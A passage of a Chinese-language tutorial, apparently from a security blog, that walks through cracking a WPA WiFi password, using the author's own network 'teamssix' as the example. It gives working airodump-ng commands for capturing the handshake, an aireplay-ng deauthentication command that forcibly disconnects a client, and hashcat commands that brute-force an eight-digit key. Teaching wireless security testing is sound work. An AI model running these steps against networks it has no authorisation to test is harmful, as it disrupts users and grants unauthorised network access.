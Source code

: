 > wlan0 是网卡名称，一般都是 wlan0，如果不是则需要根据自己的情况进行修改，可通过 iwconfig 进行查看网卡的名称

当使用 iwconfig 查看网卡名称变为 wlan0mon 说明此时网卡已经处于监听模式了

2、扫描可用 WIFI

```
airodump-ng wlan0mon
```

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/20210831104636.png)

3、获取wifi的握手包

```
airodump-ng -c (上一步扫描的 CH ) --bssid (想要破解 WIFI 的 bssid ) -w (握手文件存放目录) wlan0mon
```

这里以 ssid 为 teamssix 的 WIFI 为例

```
airodump-ng -c 1 --bssid 5E:C1:1B:A2:37:F1 -w ./ wlan0mon
```

为了顺利得到 WIFI 的握手包，可以将该 WIFI 下的设备强制踢下去

```
aireplay-ng -0 0 -a (要破解的 wifi 的 bssid ) -c (强制踢下的设备的 MAC 地址) wlan0mon
```

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/20210831105351.png)

可以看到 teamssix 这个 WIFI 有一个设备正在连接，该设备的 MAC 地址为：38:26:2C:13:D3:33，使用以下命令可以将其强制踢下去

```
aireplay-ng -0 0 -a 5E:C1:1B:A2:37:F1 -c 38:26:2C:13:D3:33 wlan0mon
```

等待设备重新连接后，当右上角出现 WPA handshake 的时候说明获取成功

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/20210831132010.png)

4、破解密码

使用 aircrack-ng 将握手包转换成 hccapx 格式

```
aircrack-ng 1.cap -j 1
```

```
hashcat -a 3 -m 2500 1.hccapx ?d?d?d?d?d?d?d?d --force
```

或者使用 hashcat 官网提供的在线工具进行格式转换：[https://hashcat.net/cap2hashcat/](https://hashcat.net/cap2hashcat/)

```
hashcat -a 3 -m 22000 1.hc22000 ?d?d?d?d?d?d?d?d --force
```

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/20210831113326.png)
